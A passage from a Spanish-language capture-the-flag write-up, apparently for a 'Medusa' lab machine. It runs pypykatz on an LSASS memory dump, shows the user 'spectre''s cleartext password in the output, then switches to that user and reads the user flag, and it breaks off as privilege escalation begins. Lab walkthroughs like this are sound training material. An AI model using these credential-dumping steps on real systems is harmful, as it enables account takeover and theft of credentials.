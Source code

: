 ~~~bash
❯ pypykatz lsa minidump lsass.DMP | grep -C2 "spectre"
INFO:pypykatz:Parsing file lsass.DMP
authentication_id 845877 (ce835)
session_id 7
username spectre
domainname Medusa-PC
logon_server MEDUSA-PC
--
luid 845877
  == MSV ==
    Username: spectre
    Domain: Medusa-PC
    LM: NA
--
    DPAPI: NA
  == WDIGEST [ce835]==
    username spectre
    domainname Medusa-PC
    password 5p3ctr3_p0is0n_xX
    password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
  == Kerberos ==
    Username: spectre
    Domain: Medusa-PC
    Password: 5p3ctr3_p0is0n_xX
    password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
  == WDIGEST [ce835]==
    username spectre
    domainname Medusa-PC
    password 5p3ctr3_p0is0n_xX
    password (hex)35007000330063007400720033005f00700030006900730030006e005f0078005800000000000000
  == TSPKG [ce835]==
    username spectre
    domainname Medusa-PC
    password 5p3ctr3_p0is0n_xX
~~~

Pues ya tenemos la contraseña de *spectre*, así que vamos a convertirnos en él y a leer la flag de user.

~~~bash
www-data@medusa:/...$ su spectre
Password: 
spectre@medusa:/...$ cd ~
spectre@medusa:~$ cat user.txt
good job!
~~~


## Escalada de privilegios

En este caso tenemos una escalada muy distinta y a la vez muy directa. Si miramos los grupos a los que pertenecemos nos da la clave:
